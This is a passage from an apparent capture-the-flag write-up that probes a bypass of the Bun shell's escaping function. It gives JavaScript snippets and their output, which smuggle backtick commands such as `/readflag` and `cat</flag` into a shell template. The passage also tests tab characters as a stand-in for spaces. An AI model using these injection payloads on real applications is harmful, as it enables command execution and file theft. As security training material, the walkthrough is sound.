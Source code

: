 As you can see, they did in fact fix the backticks escaping in `1.1.9`. However, spaces was unfortunately already escaped in `1.1.8`

```js
import { $ } from "bun";

let cmd = "`/readflag`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

Removing spaces from the cmd did in fact bypass the bun escape

```sh
❯ bun req.js
`/readflag`
Usage: /readflag give me the flag
```

But `/readflag` wanted us to give 4 parameters and parameters              need             some           spaces

One maybe thinking of using `\t` instead of space

```js
import { $ } from "bun";

let cmd = "`/readflag\tgive\tme\tthe\tflag`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

Unfortunately, bun has a different idea and thought that is a single binary :<

```sh
> bun req.js
`/readflag      give    me      the     flag`
bun: command not found: /readflag       give    me      the     flag
```

Ok so we can't use spaces, we can still try a lot of stuff right? Can't we just do `cat</flag`?:

```js
import { $ } from "bun";

let cmd = "`cat</flag`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
await $`echo ${"`cat</etc/os-release`"}`;
```

![](permission.png)
